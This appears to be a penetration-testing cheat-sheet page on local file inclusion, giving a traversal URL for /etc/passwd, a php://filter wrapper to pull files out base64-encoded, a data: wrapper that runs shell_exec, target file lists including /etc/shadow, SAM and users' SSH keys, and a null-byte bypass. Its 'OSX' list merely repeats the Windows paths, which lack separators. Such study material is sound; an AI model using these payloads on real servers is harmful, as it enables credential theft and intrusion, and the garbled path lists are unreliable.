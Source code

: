 # Local File Inclusion (LFI)

### Description

A local file inclusion (LFI) vulnerability is the process of including files that are locally present on the target server, through exploitation of vulnerable inclusion procedures implemented in the application.

Local file inclusion vulnerabilites occur when a page receives the path to the file that has to be included as input, which is not properly sanitized, allowing directory traversal characters to be injected.

### Examples

The most basic form of a exploiting a LFI vulnerability looks like the following:

```bash
https://mysecureserver.com/file.php?target=../../../../../etc/passwd
```

If we want to get a file,  it is best to base64 encode it. This will ensure that we can exfiltrate files rather than the server excuting the file. This can be accomplished with the following command:

```php
php://filter/convert.base64-encode/resource=$file
```

Additionally, the following command demonstrates  how we could execute code with the `shell_exec` function:

```bash
data:text/plain,<?php echo shell_exec("whoami") ?>
```

### Common Locations

This section lists common files to look for when testing for Local File Inclusion, I have linked additional lists in the 'References' section.&#x20;

#### Linux

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

#### Windows

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

#### OSX

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### Additional Notes

* Sometimes during Local File Inclusion, the web server may append something like `.php` or `.config` to the file. For example, including `/etc/passwd` may be rendered as `/etc/passwd.php`. This occurs when the include function uses a parameter like `?page` and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (`%00`) will cause the interpreter to stop reading, this would then allow you to include and view the intended page.
* If you have identified LFI impacting a Linux host, you may be able to access the `.ssh/id_rsa` file of identified users. These are easily identified from reading the contents of the `/etc/passwd` file.&#x20;

### References

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion" %}

